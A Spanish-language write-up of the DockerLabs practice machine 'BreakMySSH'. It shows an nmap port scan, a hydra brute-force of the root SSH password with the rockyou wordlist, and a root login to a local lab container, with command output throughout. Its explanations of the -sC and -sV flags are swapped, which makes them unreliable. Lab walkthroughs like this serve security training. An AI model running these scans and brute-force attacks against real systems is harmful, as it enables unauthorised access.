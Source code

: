 ## WRITEUP DE LA MAQUINA BREACKMYSSH DE DOCKERLABS EN ESPAÑOL

Hacemos un escaneo de puertos con la herramienta Nmap para ver cuales estan abiertos y que servicios y caraterisiticas muestran.

```
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo).

```                  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 11:09 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000082s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.60 seconds

```
Observamos el puerto 22, que es del servicio SSH, abierto. Al ser esta una máquina víctima muy sencilla, en el siguiente paso podemos permitirnos ya intentar ser "root", lo haremos de la siguiente forma.
<br><br><br>
Hacemos un ataque de fuerza bruta al servicio SSH con la herramienta Hydra, donde pondremos la wordlist "rockyou.txt" que incluye aproximadamente un millón de contraseñas comunes.
```sh
└─$ hydra -l root -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2/ -t 5
```
"-l root" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a root.
<br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist
<br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña.
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-14 11:46:06
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 55.00 tries/min, 55 tries in 00:01h, 14344344 to do in 4346:47h, 5 active
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```
Vemos que para el usuario "root" ha encontrado la contraseña "estrella", probamos a hacer una conexión con SSH e introducimos la contraseña "estrella"
```
└─$ ssh root@172.17.0.2 
```
```
root@e1c6130e3b9a:~# whoami
root
```
<br>


Somos root, estamos dentro. Gracias.
                                                

